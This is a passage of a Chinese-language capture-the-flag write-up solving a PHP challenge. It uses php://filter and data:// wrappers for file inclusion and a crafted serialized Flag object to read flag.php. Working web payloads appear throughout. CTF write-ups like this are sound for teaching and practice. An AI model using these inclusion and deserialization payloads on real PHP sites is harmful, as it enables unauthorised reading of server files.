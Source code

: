 接下来就是file的那个点。直接访问flag.php不能得到php的内容，因此需要利用文件包含。题目提示了useless.php，利用php伪协议读取一下useless.php:

```assembly
php://filter/read=convert.base64-encode/resource=useless.php
```

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php`

得到

`PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=`

```assembly
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

本地运行

```assembly
$flag = new Flag();
echo(serialize($flag));
```

`O:4:"Flag":1:{s:4:"file";N;}`

payload

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

F12得到flag

flag{befe5973-143f-4588-a7f8-59227badd67d}